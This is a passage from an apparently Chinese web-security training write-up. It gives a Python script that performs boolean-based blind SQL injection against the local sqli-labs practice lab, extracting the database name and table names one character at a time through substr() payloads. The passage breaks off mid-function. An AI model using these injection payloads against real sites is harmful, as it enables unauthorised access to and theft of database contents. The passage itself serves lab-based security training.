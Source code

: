 ![](/pics/WEB集训/二/12.png)

![](/pics/WEB集训/二/13.png)

脚本如下：

```python
import requests

url = "http://127.0.0.1/sqli-labs-master/less-5/index.php?id="
payload = "abcdefghijklmnopqrstuvwxyz1234567890!@#{}_-=+[]&();"

def get_databse():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and substr(database(),{},1)='{}'%23".format(i, ch)
            r = requests.get(url + sql)
            if(len(r.text) == 704):
                res += ch
                print(res)
                break
    print("Database: ", res)

def get_tables():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and substr((select group_concat(table_name separator ';') from information_schema.tables where table_schema='security'),{},1)='{}'%23".format(i, ch)
            r = requests.get(url + sql)
            if(len(r.text) == 704):
                res += ch
```